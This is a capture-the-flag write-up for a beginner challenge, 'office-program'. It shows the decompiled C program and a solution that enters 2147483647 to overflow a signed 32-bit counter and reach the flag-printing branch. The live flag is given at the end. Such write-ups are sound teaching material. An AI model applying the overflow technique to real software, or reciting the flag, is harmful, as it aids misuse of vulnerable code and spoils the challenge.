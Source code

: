 # office-program

[library.m0unt41n.ch/challenges/office-program](https://library.m0unt41n.ch/challenges/office-program) ![](../../resources/pwn.svg) ![](../../resources/baby.svg) 

# TL;DR

We are given an executable which, after decompilation, ends up being a trivial C dialog program,
where we need to overflow a 32-bit counter to get the flag

# Decompilation

```c
__int64 print_flag() {
  char s[1048]; // [rsp+0h] [rbp-420h] BYREF
  FILE *stream; // [rsp+418h] [rbp-8h]

  stream = popen("cat ./flag.txt", "r");
  if ( !stream ) {
    puts("Failed to run command");
    exit(1);
  }
  while ( fgets(s, 1035, stream) )
    printf("%s", s);
  pclose(stream);
  return 0LL;
}

__int64 important_work_or_attend_a_meeting() {
  __int64 result; // rax
  int v1; // [rsp+8h] [rbp-8h]
  int i; // [rsp+Ch] [rbp-4h]

  v1 = rand() % 10;
  printf("\nProcessing");
  for ( i = 0; ; ++i ) {
    result = (unsigned int)i;
    if ( i >= v1 )
      break;
    putchar(46);
    fflush(_bss_start);
    sleep(1u);
  }
  return result;
}

int __fastcall main(int argc, const char **argv, const char **envp) {
  unsigned int v3; // eax
  int v5; // [rsp+Ch] [rbp-4h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  v3 = time(0LL);
  srand(v3);
  puts("Welcome to the Office Program");
  while ( 1 ) {
    puts("\nSelect an action:");
    puts("0 - Exit (like leaving the office at 5 PM)");
    puts("1 - Print favourite excel column");
    puts("2 - Call Rebecca from front desk");
    puts("3 - Get secret sauce (only for finance)");
    printf("Enter your choice: ");
    __isoc99_scanf("%d", &v5);
    important_work_or_attend_a_meeting();
    if ( v5 == 3 )
      break;
    if ( v5 < 0 ) {
      puts("\nInput out of range. You confused the system");
      v5 = -v5;
    }
    v5 += 5;
    if ( v5 >= 0 ) {
      v5 = 0;
      puts("\nThe CEO wants to talk to you");
    } else {
      puts("\nInput out of range. You confused the system");
      print_flag();
    }
    if ( rand() % 3 ) {
      if ( rand() % 3 == 1 )
        puts("\nRandom action: Rewinding a cassette tape with a pencil...");
      else
        puts("\nUnexpected error, please insert disk");
    } else {
      puts("\nRandom action: Faxing a memo to nowhere...");
    }
  }
  puts("\nThe Office Program is not able to process the number 3");
  important_work_or_attend_a_meeting();
  puts("\nExiting now...");
  exit(0);
}
```

# Solution

In order to get the flag, we need to ensure that, after `v5 += 5`, the `v5`
is still negative. We need to overflow the 32-bit value, by entering a positive integer
(which would pass the `v5 < 0` check), but large enough that after adding 5, it would become
negative.

`INT_MAX` (`2147483647`) looks about right:

```
$ ./main 
Welcome to the Office Program

Select an action:
0 - Exit (like leaving the office at 5 PM)
1 - Print favourite excel column
2 - Call Rebecca from front desk
3 - Get secret sauce (only for finance)
Enter your choice: 2147483647

Processing.
Input out of range. You confused the system
shc2024{fake_flag}
(...)
```

## The flag

Repeating this in the live environment gets us the flag

---

## `shc2024{monica_please_send_me_the_tax_statement_by_tomorrow}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
